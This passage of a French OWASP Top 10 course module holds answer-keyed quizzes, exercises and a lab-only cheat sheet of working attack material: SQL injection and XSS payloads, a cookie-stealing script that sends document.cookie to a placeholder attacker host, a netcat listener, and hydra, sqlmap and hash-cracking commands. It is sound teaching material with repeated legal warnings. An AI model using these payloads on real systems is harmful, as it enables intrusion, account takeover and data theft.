> **Réponse : B.** Absence de détection = dwell time en mois, pas d'éléments pour
> répondre, pas de preuve. Les journaux sont le filet de sécurité de tout le reste.

**17. Le CSRF exploite surtout :**
A) Une faille SQL
B) La confiance du serveur dans des requêtes portant le cookie de session d'un utilisateur connecté
C) Un mot de passe faible
D) Un certificat expiré

> **Réponse : B.** Un site tiers fait envoyer une requête authentique (avec cookie)
> au site cible. Protection : jeton CSRF, SameSite, vérification Origin/Referer.

**18. Un fichier `.env` téléchargé via l'URL publique du site relève de :**
A) A03 Injection
B) A05 Security Misconfiguration
C) A07 Auth
D) A08 Intégrité

> **Réponse : B.** Fichier de configuration exposé = réglage défectueux
> (misconfiguration), sous-famille « fichiers exposés ».

**19. Le credential stuffing consiste à :**
A) Deviner un mot de passe par force brute
B) Réutiliser des listes de mots de passe volées sur d'autres sites
C) Fixer la session d'une victime
D) Intercepter le trafic TLS

> **Réponse : B.** Il exploite la réutilisation des mots de passe : une fuite
> ailleurs, et tous les comptes utilisant ce couple login/mot de passe tombent.

**20. Quelle est la bonne attitude avant de tester un payload contre un site ?**
A) Tester, c'est le meilleur moyen d'apprendre
B) Obtenir l'autorisation écrite (ou utiliser un labo dédié), hors scope : ne pas tester
C) Tester seulement la nuit
D) Utiliser un VPN pour rester anonyme

> **Réponse : B.** Le critère n'est ni l'heure ni l'anonymat, c'est **l'autorisation**.
> Sans mandat, tout test est un délit (en France, art. 323-1 du Code pénal).

### b) 10 Vrai / Faux — justifiés

**1. Vrai/Faux : L'OWASP Top 10 est une liste exhaustive de toutes les failles web possibles.**
**Faux.** C'est un radar des dix familles les plus répandues/dangereuses. Des
milliers d'autres failles existent ; le Top 10 donne la priorité d'apprentissage.

**2. Vrai/Faux : Un IDOR est une faille d'authentification.**
**Faux.** C'est une faille d'**autorisation** (A01) : l'utilisateur est bien
authentifié, mais le serveur ne vérifie pas son droit sur l'objet demandé.

**3. Vrai/Faux : Le hachage MD5 d'un mot de passe est acceptable si la base de données n'est pas publique.**
**Faux.** Une base se vole (sauvegarde, injection SQL…). MD5 est rapide → craquable
en secondes avec une wordlist. On hache avec un algorithme lent et salé.

**4. Vrai/Faux : Une requête préparée avec des paramètres liés neutralise l'injection SQL.**
**Vrai.** Les données ne sont plus interprétées comme du code SQL : l'interpréteur
reçoit la structure de la requête d'un côté et les valeurs en paramètres de
l'autre.

**5. Vrai/Faux : Le XSS DOM ne passe pas par le serveur : il s'exécute uniquement dans le navigateur.**
**Vrai.** Le payload vit dans le JavaScript de la page (ex. fragment d'URL `#...`)
et n'est jamais envoyé au serveur — d'où sa discrétion et sa difficulté à détecter.

**6. Vrai/Faux : Masquer le bouton « supprimer » dans l'interface protège la fonction de suppression.**
**Faux.** C'est un contrôle côté client. La route POST reste accessible : on la
conserve et on l'envoie directement (Burp, curl). Les contrôles d'accès se font
côté serveur.

**7. Vrai/Faux : La réponse « 429 Too Many Requests » indique une faille de bruteforce.**
**Faux.** Au contraire : c'est la **défense** — le rate limiting fonctionne. Son
absence, elle, est la faille (A07).

**8. Vrai/Faux : Le SSRF ne peut servir qu'à lire des fichiers locaux.**
**Faux.** Il permet de requêter le réseau interne, les interfaces d'admin, et le
métadata cloud (`169.254.169.254`) — donc de voler des clés d'accès.

**9. Vrai/Faux : Un composant avec une CVE connue est un risque exploitable même si l'exploit n'est pas encore public.**
**Vrai.** La CVE est documentée, les scripts d'exploitation apparaissent souvent en
heures/jours. Un composant vulnérable est une faille « qui n'attend qu'à être
utilisée ».

**10. Vrai/Faux : Si le site n'est pas journalisé, la faille la plus grave est A09, même si A03 a permis l'intrusion.**
**Vrai** (avec nuance). L'intrusion est A03, mais **l'incapacité à répondre** est
A09 : sans logs, pas de détection, pas d'analyse, pas de preuve. C'est pourquoi la
journalisation est une catégorie du Top 10.

### c) 10 questions ouvertes — corrigées

**1. Explique en une phrase la différence entre authentification et autorisation, avec un exemple lié au Top 10.**
L'authentification prouve *qui tu es* (login/mot de passe) ; l'autorisation décide
*ce que tu as le droit de faire*. Un IDOR (A01) est typiquement une
authentification réussie mais une autorisation absente.

**2. Pourquoi la famille A03 est-elle appelée « Injection » et pas seulement « SQLi » ?**
Parce qu'elle regroupe toutes les injections : SQL, commandes système, LDAP, XML,
et le XSS (code injecté dans le navigateur). Le point commun : des données
utilisateur interprétées comme du code par un interpréteur.

**3. Décris la méthode pour trouver le nombre de colonnes d'une requête UNION, sans outil.**
On utilise `ORDER BY n` en incrémentant `n` jusqu'à l'erreur : le dernier `n` sans
erreur est le nombre de colonnes. Alternative : `UNION SELECT NULL,NULL,...` en
ajoutant des NULL jusqu'à ce que la page s'affiche normalement.

**4. Cite trois en-têtes de sécurité et leur rôle.**
`Content-Security-Policy` (restreint les sources de scripts/ressources),
`X-Frame-Options: DENY` (empêche l'iframe → clickjacking),
`Strict-Transport-Security` (impose HTTPS). Autres acceptés : `X-Content-Type-Options:
nosniff`, `Referrer-Policy`.

**5. Pourquoi le rate limiting est-il décrit comme « indispensable » en 2021 alors qu'il est rare ?**
Parce que le bruteforce et le credential stuffing sont faciles à automatiser :
sans limitation, hydra teste des millions de combinaisons en minutes. Le rate
limiting (avec réponse 429 et verrouillage) coûte peu et coupe l'attaque.

**6. Qu'est-ce qu'un SBOM et quel problème du Top 10 aide-t-il à résoudre ?**
Un SBOM (*Software Bill of Materials*) est l'inventaire des composants et versions
d'un logiciel. Il est la condition pour appliquer A06 : on ne peut surveiller les
CVE que des composants qu'on a recensés.

**7. Explique le scénario « session fixation » en deux phrases.**
L'attaquant force un cookie de session connu chez la victime (via un lien ou une
injection de cookie), puis attend que la victime se connecte. Si le serveur ne
renouvelle pas la session après connexion, l'attaquant utilise la session (A07).

**8. Pourquoi l'encodage de sortie protège-t-il du XSS alors que le filtrage d'entrée ne suffit pas ?**
L'encodage neutralise les caractères spéciaux au moment où ils sont affichés dans
le bon contexte (HTML, attribut, JS). Le filtrage d'entrée est une liste noire
(toujours incomplète) et casse les données légitimes ; l'encodage de sortie est
fiable par construction.

**9. Un SSRF vers le métadata cloud est « critique » : explique pourquoi.**
Le métadata (`169.254.169.254`) renvoie les secrets de l'infrastructure (tokens
IMDS, clés IAM, identifiants). En les volant, l'attaquant sort de l'application et
prend le contrôle du compte cloud : c'est une compromission de l'infrastructure.

**10. Donne l'équivalent 2017 de A02:2021 et explique pourquoi le nom a changé.**
A02:2021 correspond à A03:2017 « Sensitive Data Exposure ». Le nouveau nom
(« Cryptographic Failures ») vise la **cause** (mauvaise crypto : pas de TLS,
hachage faible, clair) plutôt que le **symptôme** (données exposées).

### d) 5 exercices pratiques — corrigés

**Exercice 1 — Écris un payload SQLi.** Soit la requête PHP :
`SELECT * FROM users WHERE username = '$user' AND password = '$pass';`.
Écris le payload pour te connecter comme `admin` sans connaître le mot de passe.

> **Corrigé.** `admin'-- -` dans le champ `username` (mot de passe quelconque). La
> requête devient `SELECT * FROM users WHERE username = 'admin'-- -' AND password
> = 'x'` : le `'` ferme la chaîne, `-- -` commente la vérification du mot de passe.

**Exercice 2 — Reconnaître une faille dans un snippet.** Ce code est-il sûr ?

```php
echo "Bienvenue " . $_GET['prenom'] . " !";
$req = "SELECT * FROM cartes WHERE numero = '" . $_POST['numero'] . "'";
```

> **Corrigé.** Deux failles : **A03 XSS** (le `prenom` est affiché sans encodage —
> `<script>` s'exécute) et **A03 SQLi** (`numero` concaténé dans la requête).
> Corrections : `htmlspecialchars($prenom, ENT_QUOTES)` et requête préparée avec
> paramètre lié.

**Exercice 3 — Choisir la protection adaptée.** Associe chaque situation à une
protection du Top 10 : (a) formulaires de connexion attaqués en masse ; (b) vol de
données via une URL interne chargée par le serveur ; (c) cookies de session volés
par XSS ; (d) mots de passe stockés en MD5 ; (e) les attaquants ne laissent
aucune trace.

> **Corrigé.** (a) rate limiting + MFA → A07 ; (b) liste blanche d'URL + blocage
> des IP privées → A10 SSRF ; (c) encodage de sortie + CSP + cookie `HttpOnly` →
> A03 XSS ; (d) bcrypt/argon2 → A02 ; (e) journalisation + SIEM + alertes → A09.

**Exercice 4 — Trace la chaîne d'impact.** Une SQLi permet de lire la table
`users` avec des hashs MD5. Nomme les trois catégories OWASP enchaînées et leur
rôle.

> **Corrigé.** **A03** (la SQLi : lecture de la base) → **A02** (hashs MD5 faibles
> : craquage des mots de passe) → **A07** (connexion avec les identifiants
> craqués : prise de contrôle des comptes). C'est la « chaîne d'impact » qu'un
> pentester doit savoir raconter.

**Exercice 5 — Choisis le payload XSS adapté au contexte.** La page affiche ta
saisie **à l'intérieur d'un attribut** : `<input value="<saisie>">`. Quel payload
utilises-tu et pourquoi ?

> **Corrigé.** Fermer l'attribut et sortir de la balise :
> `"><script>alert(1)</script>` (ou `">`). Le `"`
> ferme la valeur, le `>` ferme la balise `<input>`, puis le `<script>` s'exécute.
> Choisir le payload selon le contexte est la clé du XSS (théorie c.2).
---

## Cheat Sheet

> **⚠️ Légal** — Rappel : tous ces payloads et commandes sont pour **tes labos**
> (DVWA, Juice Shop, PortSwigger, machines virtuelles). Les payloads ci-dessous
> sont **non destructifs** : ils lisent et prouvent, ils ne modifient rien.

### Les 10 catégories en un coup d'œil

| Code | Nom | Résumé | Exemple d'attaque | Protection clé |
| ---- | --- | ------ | ----------------- | -------------- |
| A01 | Broken Access Control | Les autorisations ne sont pas vérifiées | IDOR : `id=1` → `id=2` | Vérifier la propriété côté serveur, refus par défaut |
| A02 | Cryptographic Failures | Données en clair ou mal chiffrées | Sniff HTTP, crack MD5 | HTTPS partout, bcrypt/argon2, AES-256 |
| A03 | Injection | Données interprétées comme code | SQLi `' OR '1'='1'-- -`, XSS `<script>` | Requêtes préparées, encodage de sortie, CSP |
| A04 | Insecure Design | Logique métier abusable | Quantité négative, étape contournée | Règles métier côté serveur, scénarios adverses |
| A05 | Security Misconfiguration | Réglages par défaut dangereux | `.env`, `.git`, CORS `*`, bannières | En-têtes de sécurité, pages d'erreur génériques |
| A06 | Vulnerable Components | Dépendances obsolètes | Log4Shell, jQuery < 3.5 | SBOM, `npm audit`, `trivy`, veille CVE |
| A07 | Auth Failures | Porte d'entrée mal gardée | Bruteforce, credential stuffing, session fixation | Rate limiting, MFA, renouvellement de session |
| A08 | Integrity Failures | Code/données non vérifiés | Désérialisation → RCE, supply chain | Ne pas désérialiser de non-fiable, signatures |
| A09 | Logging Failures | Rien n'est enregistré/détecté | Intrusion invisible pendant des mois | Logs complets + SIEM + alertes |
| A10 | SSRF | Le serveur requête l'interne | `url=http://169.254.169.254/...` | Liste blanche d'URL, blocage IP privées, IMDSv2 |

### Payloads SQLi courants (MySQL — labo uniquement)

| Usage | Payload | Explication |
| ----- | ------- | ----------- |
| Contourner un login | `admin'-- -` | Ferme la chaîne et commente la suite |
| OR toujours vrai | `' OR '1'='1'-- -` | Condition vraie pour toutes les lignes |
| Nombre de colonnes | `' ORDER BY 3-- -` | Incrémenter `3` jusqu'à l'erreur |
| UNION basique | `' UNION SELECT null,2,3-- -` | Même nombre de colonnes que la requête |
| Lire une table | `' UNION SELECT user, password FROM users-- -` | Extraction directe |
| Boolean-based | `' AND 1=1-- -` vs `' AND 1=2-- -` | Réponses différentes = injectable |
| Time-based (MySQL) | `' AND SLEEP(5)-- -` | Délai de 5 s = condition vraie |
| Time-based (MSSQL) | `'; WAITFOR DELAY '0:0:5'-- -` | Variante SQL Server |
| Time-based (PostgreSQL) | `' AND pg_sleep(5)-- -` | Variante Postgres |
| Encodage URL | `'`→`%27`, espace→`%20`, `,`→`%2C` | Pour coller dans une URL |

### Payloads XSS courants (labo uniquement)

| Contexte | Payload | Explication |
| -------- | ------- | ----------- |
| Hors balise | `<script>alert(1)</script>` | Le plus direct |
| Script filtré | `` | Déclencheur sur erreur de chargement |
| Dans un attribut | `"><script>alert(1)</script>` | Ferme la valeur et la balise |
| Dans une valeur JS | `';alert(1)//` | Ferme la chaîne JS, commente la suite |
| DOM (fragment URL) | `#` | S'exécute via `location.hash` + `innerHTML` |
| Vol de cookie | `<script>fetch('http://ATTAQUANT:8080/?c='+document.cookie)</script>` | Exfiltration vers ton écouteur |
| Écouteur | `nc -lvnp 8080` | Netcat en écoute sur le port 8080 |

### Commandes hydra / sqlmap (labo uniquement)

| Besoin | Commande |
| ------ | -------- |
| Bruteforce login HTTP POST | `hydra -l admin -P rockyou.txt 127.0.0.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Login failed" -t 4` |
| Bruteforce avec cookie de session | ajouter `H=Cookie\:PHPSESSID=<id>` dans le bloc du formulaire |
| Lister les bases (sqlmap) | `sqlmap -u "URL?id=1" --cookie="..." --dbs --batch` |
| Lister les tables | `sqlmap -u "URL?id=1" --cookie="..." -D <base> --tables --batch` |
| Dumper une table | `sqlmap -u "URL?id=1" --cookie="..." -D <base> -T users --dump --batch` |
| Craquer un hash MD5 (john) | `john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` |
| Craquer un hash MD5 (hashcat) | `hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt` |

### En-têtes de protection (à exiger dans un rapport)

| En-tête | Valeur recommandée | Rôle |
| ------- | ------------------ | ---- |
| `Content-Security-Policy` | `default-src 'self'` | Restreint scripts/contenu (anti-XSS) |
| `Strict-Transport-Security` | `max-age=63072000; includeSubDomains` | Force HTTPS (anti-rétrogradation) |
| `X-Frame-Options` | `DENY` | Interdit l'iframe (anti-clickjacking) |
| `X-Content-Type-Options` | `nosniff` | Empêche le MIME sniffing |
| `Referrer-Policy` | `no-referrer` | Limite la fuite de l'URL dans Referer |
| Cookies | `HttpOnly; Secure; SameSite=Lax` | Cookies inaccessibles au JS, HTTPS, inter-sites limités |

### Pièges (rappel express)

| Piège | Garde-fou |
| ----- | --------- |
| Payload sur site réel | jamais sans autorisation écrite |
| Oublier l'encodage URL | `'`→`%27`, espace→`%20` |
| Payload destructif | on lit, on prouve, on ne supprime rien |
| Confondre A01 et A07 | A01 = autorisation, A07 = authentification |
| Oublier `-- -` (commentaire) | sinon le reste de la requête casse la syntaxe |
| UNION sans même nombre de colonnes | compter avec `ORDER BY` ou des `NULL` |
| MD5 comme mot de passe | bcrypt / argon2 / scrypt |
| Faire confiance aux contrôles côté client | tout se rejoue avec Burp/curl |
| Scanner `rockyou` non décompressé | `gunzip` avant usage |
| XSS sans listener | ouvrir `nc -lvnp 8080` d'abord |

### Astuces de terrain

- Teste toujours avec **deux comptes** (Alice et Bob) pour prouver un IDOR.
- Note l'**entrée exacte** de chaque payload : la qualité d'un rapport tient à sa reproductibilité.
- Cherche le contexte d'injection **avant** de choisir le payload (balise ? attribut ? JS ?).
- Dans une URL, utilise `--data-urlencode` avec `curl` pour éviter les erreurs d'encodage.
- `searchsploit <techno> <version>` donne les exploits publics en une commande.
- Un XSS « prouvé » avec `alert(1)` est suffisant en labo : ne passe au vol de cookie que sur tes machines.

---

## Pièges fréquents

1. **Injecter sur des applications réelles sans autorisation.** Le piège le plus
   grave et le plus fréquent chez les débutants : « je vais juste tester ». Sans
   mandat écrit, tout test est un délit (art. 323-1 du Code pénal en France). Le
   professionnel ne teste que ses labos et les scopes autorisés. La correction
   n'est pas technique, c'est un réflexe : demander l'autorisation ou utiliser un
   labo.

2. **Oublier l'encodage.** Un payload parfait en clair casse dès qu'il passe dans
   une URL : espaces, apostrophes, crochets doivent être encodés (`%20`, `%27`,
   `%3C`…). La correction : tester en clair dans le navigateur d'abord, puis
   traduire soigneusement — ou utiliser `--data-urlencode` avec `curl`.

3. **Utiliser des payloads destructifs.** `DROP TABLE`, `DELETE`, suppression de
   données : interdits même en labo partagé. Un pentester prouve avec des lectures
   et des affichages ; s'il doit tester une modification, il utilise un
   environnement jetable et une valeur témoin.

4. **Confondre les catégories.** Dire « c'est une faille de session » sans
   préciser A01/A07/A09, ou appeler « hacking » un bruteforce. Chaque famille a
   une définition précise : le Top 10 est justement la langue pour ne plus se
   tromper. La correction : toujours nommer le code (A01, A03…) et justifier.

5. **Négliger l'impact.** Trouver une faille sans dire ce qu'elle permet de faire
   (lire la base ? prendre un compte ? le serveur ?) rend le rapport inutile. Un
   pentester pense en **conséquences** (confidentialité, intégrité, disponibilité),
   pas en « cool, ça a marché ».

6. **Oublier le commentaire SQL (`-- -`).** Le payload ferme le guillemet mais la
   fin de la requête reste active et casse la syntaxe ou annule l'attaque. La
   correction : toujours refermer la phrase correctement et vérifier le type de
   commentaire selon le SGBD.

7. **Croire que l'UUID ou la complexité suffisent.** Un UUID ralentit
   l'énumération mais ne remplace pas le contrôle d'accès ; un mot de passe
   complexe ne protège pas du credential stuffing. Les protections se cumulent,
   elles ne se substituent pas.

8. **Tester sans comprendre le code.** Balancer des payloads en aveugle produit du
   bruit, pas des conclusions. La correction : lire le code quand tu le peux,
   cartographier le flux, puis tester une hypothèse à la fois.

9. **Négliger la configuration et la journalisation.** Se focaliser sur l'exploit
   « spectaculaire » (SQLi, RCE) et oublier A05 (en-têtes, fichiers exposés) et
   A09 (pas de logs) : c'est l'inverse des clients qui subissent des vols silencieux.

10. **Faire confiance aux outils aveuglément.** `sqlmap` qui trouve une injection
    ou `nmap` qui affiche un port ne suffisent pas : l'outil peut se tromper,
    l'exploit peut échouer, la version peut différer. On vérifie chaque résultat à
    la main avant de le rapporter.

11. **Confondre le test et le prétexte.** « Je teste » ne couvre pas
    l'exfiltration de données personnelles réelles ni la modification de
    production. Même autorisé, on évite de toucher aux données réelles des clients
    — on travaille sur des copies ou des valeurs témoins.

12. **Oublier de documenter.** Une faille non documentée (requête, réponse,
    horodatage, reproduction) n'existe pas dans le rapport. La correction : un
    fichier de notes par cible, avec chaque preuve copiée telle quelle.

---

## Conseils professionnels

1. **Teste sur des labos dédiés, toujours.** DVWA, Juice Shop, PortSwigger,
   HackTheBox, TryHackMe : c'est là que tu fais tes erreurs sans conséquences. La
   virtuosité se construit en terrain sûr, puis se transplante sous contrat.

2. **Documente chaque payload.** Avant d'envoyer, note la cible, l'entrée, la
   requête complète et le résultat. C'est ta matière première pour le rapport — et
   ta protection en cas de litige.

3. **Comprends le code source.** L'outil automatise, mais le raisonnement t'appartient.
   Lire la ligne qui concatène, l'en-tête qui manque, la route non protégée : c'est
   la différence entre un exécutant et un expert.

4. **Priorise par impact, pas par facilité.** Un IDOR sur les virements a plus de
   valeur qu'un XSS sur une page publique. Classe par gravité réelle et chiffre
   l'impact (« compromission de N comptes ») plutôt que de lister des trophées.

5. **Prouve de façon non destructive et reproductible.** Capture la requête, la
   réponse, l'horodatage. Ne supprime jamais de données. Le client (et le juge, le
   cas échéant) doit pouvoir rejouer ta preuve.

6. **Pense en chaînes d'impact.** Une SQLi → hashs MD5 → mots de passe craqués →
   comptes admin : une seule porte peut ouvrir toute la maison. Raconte la chaîne
   A03 → A02 → A07, c'est ce que ton client comprend et craint.

7. **Apprends à expliquer au non-technique.** Ton rapport sera lu par un DSI, un
   juriste, un assureur. Chaque faille : un titre clair, un impact en langage
   métier, une correction chiffrable. Pas de jargon non défini.

8. **Connais tes limites et le scope.** Tu as le droit de tester *ce qui est
   écrit* dans le contrat, et rien d'autre. Dès que tu sors du périmètre, tu
   arrêtes, tu documentes, tu signales au client — tu n'exploites pas.

9. **Garde une veille CVE et OWASP.** Le Top 10 évolue, les exploits publics
   arrivent vite (Log4Shell en est la preuve). Une heure de veille par semaine
   (NVD, bulletins, blogs) te garde à jour.

10. **Sois honnête dans le rapport.** Fait établi, hypothèse, indice faible : on
    ne gonfle pas une hypothèse en preuve, on ne cache pas un échec d'exploitation.
    La crédibilité d'un pentester est son capital — elle se joue sur la rigueur.

---

## Résumé

### Tableau récapitulatif des 10 familles

| | Famille | Faille-type | Test rapide | Correction type |
| - | ------- | ----------- | ----------- | --------------- |
| A01 | Access Control | `id=2` à la place de `id=1` | changer l'id, tester un 403 | contrôle par objet côté serveur |
| A02 | Crypto | hash MD5, HTTP en clair | `curl -sI`, sniff, crack | TLS, bcrypt, chiffrement |
| A03 | Injection | `' OR '1'='1'-- -`, `<script>` | apostrophe, marqueur `testXYZ<>` | requêtes préparées, encodage |
| A04 | Insecure Design | quantité négative | rejouer le flux, inverser les signes | règles métier serveur |
| A05 | Misconfig | `.git`, CORS `*`, bannière | `gobuster`, `curl -sI` | durcir, masquer, restreindre |
| A06 | Components | Log4Shell, jQuery obsolète | `whatweb` + `searchsploit` | SBOM, audit, mise à jour |
| A07 | Auth | bruteforce, session fixée | hydra, comparer cookies | rate limiting, MFA, rotation session |
| A08 | Integrity | désérialisation → RCE | payload `__reduce__` en labo | ne pas désérialiser, signer |
| A09 | Logging | pas de traces | provoquer + `tail` les logs | journaliser, SIEM, alertes |
| A10 | SSRF | `url=169.254.169.254` | `-d "url=http://127.0.0.1..."` | liste blanche, blocage privé |

### Le schéma mental



**En une phrase.** Le Top 10 2021 te donne la carte des dix portes d'un château
web : pour chacune, tu sais maintenant comment elle s'ouvre, ce qu'on perd
derrière, et comment la refermer. A01 (autorisation) et A03 (injection) sont tes
deux premières cartes : les plus fréquentes et les plus rentables à maîtriser.

---

## Progression

**Tu as validé le niveau 5.** Voici ce que tu sais faire désormais :

- reconnaître et nommer les **10 familles OWASP** (codes A01 → A10, équivalents 2017) ;
- **exploiter en labo** la SQLi (UNION, boolean-based, time-based), les **3 types
  de XSS**, les **IDOR**, le **SSRF** et le **bruteforce** — avec des payloads
  réels et non destructifs ;
- lire un code vulnérable et pointer le défaut, puis **recommander la
  protection** (requêtes préparées, encodage, en-têtes, rate limiting, hachage…) ;
- **estimer l'impact** selon le modèle CIA et raconter des **chaînes d'attaque**
  (ex. SQLi → hashs → comptes) ;
- raisonner comme un pentester débutant : scoping, documentation, reporting,
  éthique et cadre légal.

**Tout ceci est le vocabulaire du métier.** Tu ne reparleras plus des failles
comme d'un mystère : tu les **nommeras**, tu les **classeras**, tu les
**prouveras**.

**Prochain arrêt : le niveau 6 — Pentesting Methodology 🔍.** Tu vas maintenant
apprendre la **méthode complète** d'un test d'intrusion : du contrat (pre-
engagement) à la recon, au scan, à l'exploitation, à la post-exploitation et au
rapport final. Le niveau 5 t'a appris **quoi chercher** ; le niveau 6 t'apprendra
**dans quel ordre**, **avec quels outils** (nmap, masscan, RustScan, Metasploit,
john, wordlists), et **comment structurer** un engagement professionnel du début
à la fin. C'est le niveau où tu passes de « celui qui sait » à « celui qui
livre ».

---

## Gamification

### Récompenses de fin de niveau

| Élément | Valeur |
| ------- | ------ |
| **XP** | 1 250 XP à la validation du cours (quiz ≥ 80 %) |
| **Badge** | 🛡️ **Décrypteur** — obtenu quand tu as résolu les 3 mini challenges |
| **Niveau débloqué** | Niveau 6 — Pentesting Methodology |
| **Temps** | 14 heures estimées (3-4 séances) |

### Succès débloquables

| Succès | Condition |
| ------ | --------- |
| « First flag » | valider le Score Board de Juice Shop |
| « Admin pour une nuit » | se connecter en admin via SQLi (TP1) |
| « Script-kiddie non » | résoudre la SQLi complète **à la main** (TP2, sans sqlmap) |
| « Zero help » | TP1 réussi sans regarder la correction : +100 XP |
| « Lab solo » | TP2 réussi sans correction : +100 XP |
| « Zero stars » | résoudre le défi Zero Stars sans indice |
| « Cookie thief » | voler et rejouer un cookie de session en labo (mini challenge 2) |
| « Reasoner » | identifier correctement les 3 familles du challenge 1 |
| « SQL whisperer » | extraire une table secrète par UNION (mini challenge 3) |
| « Clean scope » | réussir une démo sans jamais toucher au hors-scope |
| « Mini challenge sans indice » | chaque challenge résolu sans indice : +50 XP |

### Compétences acquises (grille)

| Compétence | Niveau atteint |
| ---------- | -------------- |
| Reconnaissance de failles web (10 familles) | ⭐⭐⭐ |
| Injection SQL (UNION / aveugle / time-based) | ⭐⭐⭐ |
| Cross-Site Scripting (réfléchi / stocké / DOM) | ⭐⭐⭐ |
| Contrôle d'accès et IDOR | ⭐⭐⭐ |
| SSRF et métadata cloud | ⭐⭐ |
| Authentification et bruteforce (`hydra`) | ⭐⭐ |
| Sécurité du code (lecture, défauts, protections) | ⭐⭐⭐ |
| Estimation d'impact (CIA, chaînes d'attaque) | ⭐⭐ |
| Reporting et éthique (scope, preuves, non-destructif) | ⭐⭐ |

**Rappel du cadre.** Tout ce que tu as appris s'exerce légalement dans un lab,
sur ta propre machine ou sur une plateforme d'entraînement. Le badge 🛡️
Décrypteur signifie que tu sais **lire les applications comme un livre ouvert** —
reconnaître la porte, comprendre la serrure, et expliquer comment la changer.
Le niveau 6 t'attend : viens y apprendre la méthode des professionnels.
